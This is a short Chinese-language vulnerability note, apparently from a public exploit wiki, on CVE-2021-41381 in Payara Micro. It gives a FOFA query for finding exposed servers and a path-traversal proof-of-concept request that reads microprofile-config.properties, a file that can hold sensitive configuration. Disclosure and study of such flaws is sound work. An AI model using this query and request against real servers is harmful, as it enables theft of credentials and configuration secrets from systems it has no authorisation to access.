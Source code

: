 # PayaraMicro microprofile-config.properties 信息泄漏漏洞 CVE-2021-41381

## 漏洞描述

PayaraMicro microprofile-config.properties文件配置错误的情况下可被任意用户读取，获取敏感信息

## 漏洞影响

```
Payara Micro Community 5.2021.6
```

## FOFA

```
app="Payara-Micro"
```

## 漏洞复现

产品页面

![image-20220525163706617](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251637689.png)

验证POC

```
/.//WEB-INF/classes/META-INF/microprofile-config.properties
```

![image-20220525163715004](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251637074.png)